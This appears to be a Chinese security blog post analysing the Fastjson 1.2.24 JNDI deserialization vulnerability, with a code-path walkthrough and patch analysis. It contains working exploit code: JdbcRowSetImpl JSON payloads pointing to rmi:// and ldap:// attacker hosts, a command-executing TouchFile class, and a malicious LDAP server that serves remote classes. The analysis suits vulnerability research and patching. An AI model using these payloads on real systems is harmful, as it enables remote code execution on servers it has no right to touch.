

# Fastjson1.22-1.24反序列化分析之JNDI

## 写在前面

这里不单独写，fastjson具体解析的过程，在后面Bypass的时候会单独列出来，也或者单独列一篇

## 基于JdbcRowSetImpl的利用链

### JNDI+RMI

#### payload

payload如下

```java
String payload = "{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"rmi://vps/TouchFile\", \"autoCommit\":true}";
JSON.parse(payload);
```

服务器下编译一个javac TouchFile.java

```java
import java.lang.Runtime;
import java.lang.Process;

public class TouchFile {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"calc"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
            // do nothing
        }
    }
}
```

借助[marshalsec](https://github.com/mbechler/marshalsec)项目，启动一个RMI服务器，监听9999端口，并制定加载远程类`TouchFile.class`

运行即可弹出计算器

#### 过程分析

因为是parse，所以会以此调用set方法

我们跟进`com.sun.rowset.JdbcRowSetImpl`

直接看`setAutoCommit`部分

```java
public void setAutoCommit(boolean var1) throws SQLException {
        if (this.conn != null) {
            this.conn.setAutoCommit(var1);
        } else {
            this.conn = this.connect();
            this.conn.setAutoCommit(var1);
        }

    }
```

由于第一次初始化肯定conn为null，跟进`this.connect`

很明显在里面看到了

```Java
InitialContext var1 = new InitialContext();
DataSource var2 = (DataSource)var1.lookup(this.getDataSourceName());
```

可以看到取值来源于`dataSourceName`，所以这里为什么payload里面多了这个属性，就是为了去设置他

## JNDI+Ldap

就不必分析了，利用过程一致，简简单单给个payload

```Java
String payload = "{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"ldap://vps/TouchFile\", \"autoCommit\":true}";
JSON.parse(payload);
```

写一个LdapServer.Java即可

```Java
public class LdapServer {

    private static final String LDAP_BASE = "dc=example,dc=com";


    public static void main (String[] args) {

        String url = "http://127.0.0.1:8000/#Exploit";
        int port = 1389;


        try {
            InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
            config.setListenerConfigs(new InMemoryListenerConfig(
                    "listen",
                    InetAddress.getByName("0.0.0.0"),
                    port,
                    ServerSocketFactory.getDefault(),
                    SocketFactory.getDefault(),
                    (SSLSocketFactory) SSLSocketFactory.getDefault()));

            config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(url)));
            InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
            System.out.println("Listening on 0.0.0.0:" + port);
            ds.startListening();

        }
        catch ( Exception e ) {
            e.printStackTrace();
        }
    }

    private static class OperationInterceptor extends InMemoryOperationInterceptor {

        private URL codebase;


        /**
         *
         */
        public OperationInterceptor ( URL cb ) {
            this.codebase = cb;
        }


        /**
         * {@inheritDoc}
         *
         * @see com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor#processSearchResult(com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult)
         */
        @Override
        public void processSearchResult ( InMemoryInterceptedSearchResult result ) {
            String base = result.getRequest().getBaseDN();
            Entry e = new Entry(base);
            try {
                sendResult(result, base, e);
            }
            catch ( Exception e1 ) {
                e1.printStackTrace();
            }

        }


        protected void sendResult ( InMemoryInterceptedSearchResult result, String base, Entry e ) throws LDAPException, MalformedURLException {
            URL turl = new URL(this.codebase, this.codebase.getRef().replace('.', '/').concat(".class"));
            System.out.println("Send LDAP reference result for " + base + " redirecting to " + turl);
            e.addAttribute("javaClassName", "Exploit");
            String cbstring = this.codebase.toString();
            int refPos = cbstring.indexOf('#');
            if ( refPos > 0 ) {
                cbstring = cbstring.substring(0, refPos);
            }
            e.addAttribute("javaCodeBase", cbstring);
            e.addAttribute("objectClass", "javaNamingReference");
            e.addAttribute("javaFactory", this.codebase.getRef());
            result.sendSearchEntry(e);
            result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
        }

    }
}
```

## 补丁分析

### checkAutoType

首先整个调用栈

```Java
connect:654, JdbcRowSetImpl (com.sun.rowset)
setAutoCommit:4081, JdbcRowSetImpl (com.sun.rowset)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:57, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:606, Method (java.lang.reflect)
setValue:96, FieldDeserializer (com.alibaba.fastjson.parser.deserializer)
parseField:83, DefaultFieldDeserializer (com.alibaba.fastjson.parser.deserializer)
parseField:773, JavaBeanDeserializer (com.alibaba.fastjson.parser.deserializer)
deserialze:600, JavaBeanDeserializer (com.alibaba.fastjson.parser.deserializer)
parseRest:922, JavaBeanDeserializer (com.alibaba.fastjson.parser.deserializer)
deserialze:-1, FastjsonASMDeserializer_1_JdbcRowSetImpl (com.alibaba.fastjson.parser.deserializer)
deserialze:184, JavaBeanDeserializer (com.alibaba.fastjson.parser.deserializer)
parseObject:368, DefaultJSONParser (com.alibaba.fastjson.parser)
parse:1327, DefaultJSONParser (com.alibaba.fastjson.parser)
parse:1293, DefaultJSONParser (com.alibaba.fastjson.parser)
parse:137, JSON (com.alibaba.fastjson)
parse:128, JSON (com.alibaba.fastjson)
main:6, JdbcRowSetImplPoc
```

修补是处在DefaultJSONParser当中

它将DefaultJSONParser.parseObject()函数中的`TypeUtils.loadClass`替换为checkAutoType()函数



里面增加了一个`denyList`

```java
this.denyList = "bsh,com.mchange,com.sun.,java.lang.Thread,java.net.Socket,java.rmi,javax.xml,org.apache.bcel,org.apache.commons.beanutils,org.apache.commons.collections.Transformer,org.apache.commons.collections.functors,org.apache.commons.collections4.comparators,org.apache.commons.fileupload,org.apache.myfaces.context.servlet,org.apache.tomcat,org.apache.wicket.util,org.codehaus.groovy.runtime,org.hibernate,org.jboss,org.mozilla.javascript,org.python.core,org.springframework".split(",");
```

